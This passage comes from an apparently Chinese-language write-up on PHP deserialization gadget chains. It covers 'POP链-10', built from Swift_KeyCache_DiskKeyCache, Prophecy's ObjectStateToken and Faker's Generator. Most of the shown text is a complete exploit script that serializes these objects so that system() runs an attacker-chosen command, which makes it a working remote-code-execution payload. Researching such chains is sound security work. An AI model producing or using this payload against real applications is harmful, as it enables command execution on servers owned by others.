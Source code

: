### POP链利用流程图

![undefined](https://p3.ssl.qhimg.com/t01ef5842b0f04120d0.png "undefined")

## POP链-10
起始点和`POP链-8`一样，从`__toString()`开始，跟进`src/Prophecy/Argument/Token/ObjectStateToken.php`中的`__toString()`方法，这里`$this->util`和`$this->value`均可控

![undefined](https://p0.ssl.qhimg.com/t01c53ae21f69eebfb4.png "undefined")

接着后面利用`POP链-2`后半段的`__call()`触发方法即可进行命令执行操作从而达到 RCE

### exp
```php
<?php 
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
    use Faker\Generator;
    class ObjectStateToken {
        private $name;
        private $value;
        private $util;
        public function __construct($payload) {
            $this->name = "H3rmesk1t";
            $this->util = new Generator();;
            $this->value = $payload;
        }
    }
}

namespace {
    use Prophecy\Argument\Token\ObjectStateToken;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new ObjectStateToken($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP链利用流程图
